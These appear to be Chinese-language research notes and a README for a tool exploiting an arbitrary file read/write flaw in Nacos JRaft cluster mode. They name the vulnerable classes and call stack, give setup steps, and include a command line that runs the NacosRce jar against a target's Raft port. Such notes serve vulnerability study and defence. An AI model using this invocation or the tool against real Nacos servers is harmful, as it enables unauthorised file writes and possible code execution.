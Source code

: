 #### Nacos JRaft 任意文件读写

一些操作信息记录

```java
com.alibaba.nacos.core.storage.kv.FileKvStorage实现了com.alibaba.nacos.core.storage.kv.KvStorage，这是任意文件读写位置

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#onApply任意文件读写调用点

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#group返回了naming_persistent_service表示调用的group

读文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#get

写文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#put
```

#### NacosStateMachine的onApply调用堆栈



```java
TomcatEmbeddedWebappClassLoader@4a8355dd
    @com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor.onApply()
        at com.alibaba.nacos.core.distributed.raft.NacosStateMachine.onApply(NacosStateMachine.java:122)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doApplyTasks(FSMCallerImpl.java:597)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doCommitted(FSMCallerImpl.java:561)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.runApplyTask(FSMCallerImpl.java:467)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.access$100(FSMCallerImpl.java:73)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:150)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:142)
        at com.lmax.disruptor.BatchEventProcessor.run(BatchEventProcessor.java:137)
        at java.lang.Thread.run(Thread.java:748)
```

#### 注册group类

```java
com.alibaba.nacos.core.distributed.raft.JRaftServer#createMultiRaftGroup
```

#### 只有集群模式有漏洞

开启集群模式

使用MySQL数据库，cluster.conf配置文件中只写入本机IP地址：10.10.87.157:8848，然后启动：sh startup.sh

```
https://nacos.io/zh-cn/docs/cluster-mode-quick-start.html
```

写入成功截图

![iShot_2024-08-26_17.40.21](/Users/skymurray/WorkSpace/java/NacosFileReadWrite/NacosFileReadWrite/iShot_2024-08-26_17.40.21.png)

![iShot_2024-08-26_17.41.40](./iShot_2024-08-26_17.41.40.png)

<br />

注意：工具仅供学习使用，请勿滥用，否则后果自负！

<br />**食用方式 **<br />
<br />

```shell
java -jar NacosRce.jar http://192.168.90.1:8848/ 7848 write
```

<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
<br />[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)

<br />也许是错的，这只是周六的时候临时看了一下
